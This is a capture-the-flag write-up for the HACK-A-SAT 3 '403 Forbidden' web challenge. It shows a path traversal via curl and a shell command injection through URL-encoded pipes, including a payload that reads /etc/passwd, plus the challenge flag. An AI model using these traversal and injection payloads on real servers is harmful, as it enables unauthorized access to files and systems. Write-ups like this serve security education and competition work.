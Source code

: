 # HACK-A-SAT 3: 403 Forbidden

* **Category:** Turnstile Services
* **Points:** 10000
* **Description:**

Successfully access to the forbidden folder on the provided server.


## Write-up

_Write-up by Solar Wine team_

An IP was provided by organizers: 10.23.223.25, with a webserver running on it:

![webserver](images/webserver.png)

The folder <http://10.23.223.25/groundstations/> is forbidden, it seems promising to try to access it.

First we ran gobuster to enumerate a bit the webserver, but we found nothing special.

Then, we noticed a directory listing on the assets folder: <http://10.23.223.25/assets/>.

Finally, a path traversal was found:

```bash
curl -v --path-as-is http://10.23.223.25/assets/../../../
GET /assets/../../../ HTTP/1.1
HTTP/1.1 200 OK
Content-Length: 159
Content-Type: text/plain
Connection: close

total 68
-rwxr-xr-x 1 root root 57072 Oct 22 05:34 has3-web
-rw-rw-rw- 1 root root   205 Oct 22 05:34 server.ini
drwxrwxrwx 1 root root  4096 Oct 22 05:34 www
```

We could find the `has3-web` binary and its associated configuration. It's a Linux x64 web server. We found the following code:

![command_injection](images/cmd_injection.png)

The man pages of `getdents(2)` and `readdir(3)` being slightly longer than the one of `system(3)`, the file listing functionality was implemented by executing `ls`on the target directory. We found that the proper way to URLencode a shell injection that would work in HTTP was to start the injection point with `%20|` and finish it with `/`.

```bash
curl -v --path-as-is http://10.23.223.25/assets%20|cat%20/etc/passwd/
```

We used it to list the Ground Stations folder:

```bash
/server/www/html/groundstations:
.
..
.access
index.html
index_Cordoba.html
index_Guam.html
index_Hawaii.html
index_Kathmandu.html
index_LosAngeles.html
index_Maspalomas.html
index_Mauritius.html
index_Melbourne.html
index_Mingenew.html
index_Tokyo.html
index_organizers_mcmurdo.html
index_organizers_svalbard.html
index_perfectblue_mcmurdo.html
index_perfectblue_svalbard.html
index_poland_mcmurdo.html
index_poland_svalbard.html
index_samurai_mcmurdo.html
index_samurai_svalbard.html
index_science-station.html
index_singleevent_mcmurdo.html
index_singleevent_svalbard.html
index_solarwine_mcmurdo.html
index_solarwine_svalbard.html
index_spacebits_mcmurdo.html
index_spacebits_svalbard.html
index_weltalles_mcmurdo.html
index_weltalles_svalbard.html
rx_settings_organizers_svalbard.json
rx_settings_perfectblue_mcmurdo.json
rx_settings_perfectblue_svalbard.json
rx_settings_poland_mcmurdo.json
rx_settings_poland_svalbard.json
rx_settings_science-station.json
rx_settings_singleevent_mcmurdo.json
rx_settings_singleevent_svalbard.json
rx_settings_solarwine_mcmurdo.json
rx_settings_solarwine_svalbard.json
rx_settings_spacebits_mcmurdo.json
rx_settings_spacebits_svalbard.json
rx_settings_weltalles_mcmurdo.json
rx_settings_weltalles_svalbard.json
```

And we found a flag folder with a flag.txt inside:

```bash
/server/www/html/flag:
.
..
.access
flag.txt
```

So we retrieved the content of flag.txt:

```bash
flag{iJiTL6c0dNICRpze}
flag=iJiTL6c0dNICRpze
iJiTL6c0dNICRpze
```

Flag is: `flag{iJiTL6c0dNICRpze}`
